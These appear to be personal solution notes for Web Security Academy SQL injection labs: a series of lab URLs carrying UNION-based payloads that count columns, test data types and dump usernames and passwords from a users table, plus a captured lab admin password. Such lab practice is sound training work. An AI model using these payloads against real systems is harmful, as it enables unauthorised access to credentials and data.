 ## UNION attacks

https://ace81f321f49cdb0800a8011005e0098.web-security-academy.net/filter?category=Pets%27%20order%20by%202%20--
https://ace81f321f49cdb0800a8011005e0098.web-security-academy.net/filter?category=Pets%27%20union%20select%20username,%20password%20from%20users%20%20--

administrator
fj9so1remafxt4nrjsf2


## Finding columns with a useful data type in an SQL injection UNION attack
https://acbb1f8e1f73055d81b6ae7d003c00c0.web-security-academy.net/filter?category=Pets%27%20union%20select%201234,%20%27ZXmSiR%27,%2011%20--


##SQL injection UNION attack, retrieving data from other tables
https://ac2c1f201fbcdb8a80152ac9005500e7.web-security-academy.net/filter?category=Accessories%27%20union%20select%20username,%20password%20from%20users%20--


##Retrieving multiple values within a single column

https://ac951f5d1fdd3667802a1a9e003e006a.web-security-academy.net/filter?category=Gifts' order by 2 --
https://ac951f5d1fdd3667802a1a9e003e006a.web-security-academy.net/filter?category=Gifts' union select null, 'abcd' --
https://ac951f5d1fdd3667802a1a9e003e006a.web-security-academy.net/filter?category=Gifts%27%20union%20select%20null,%20username%20from%20users%20--
https://ac951f5d1fdd3667802a1a9e003e006a.web-security-academy.net/filter?category=Gifts' union select null, concat(username,' : ', password) from users --